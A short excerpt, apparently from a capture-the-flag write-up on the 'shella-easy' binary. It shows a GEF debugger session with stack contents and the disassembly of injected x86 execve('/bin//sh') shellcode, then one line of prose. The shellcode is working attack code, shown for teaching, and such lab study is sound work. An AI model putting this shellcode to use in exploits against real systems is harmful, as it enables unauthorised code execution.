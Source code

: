 ```
0xfff4cb24│+0x0004: 0xfff4cbb4  →  0xfff4e297  →  "./shella-easy"
0xfff4cb28│+0x0008: 0xfff4cbbc  →  0xfff4e2a5  →  "QT_QPA_PLATFORMTHEME=appmenu-qt5"
0xfff4cb2c│+0x000c: 0x00000000
0xfff4cb30│+0x0010: 0x00000000
0xfff4cb34│+0x0014: 0x00000000
0xfff4cb38│+0x0018: 0xf7f47000  →  0x001b1db0
0xfff4cb3c│+0x001c: 0xf7f8ec04  →  0x00000000
──────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
 → 0xfff4cad0                  xor    eax, eax
   0xfff4cad2                  push   eax
   0xfff4cad3                  push   0x68732f2f
   0xfff4cad8                  push   0x6e69622f
   0xfff4cadd                  mov    ebx, esp
   0xfff4cadf                  push   eax
──────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "shella-easy", stopped, reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0xfff4cad0 → xor eax, eax
─────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/10i 0xfff4cad0
=> 0xfff4cad0:    xor    eax,eax
   0xfff4cad2:    push   eax
   0xfff4cad3:    push   0x68732f2f
   0xfff4cad8:    push   0x6e69622f
   0xfff4cadd:    mov    ebx,esp
   0xfff4cadf:    push   eax
   0xfff4cae0:    push   ebx
   0xfff4cae1:    mov    ecx,esp
   0xfff4cae3:    mov    al,0xb
   0xfff4cae5:    int    0x80
```

There we can see our shellcode.
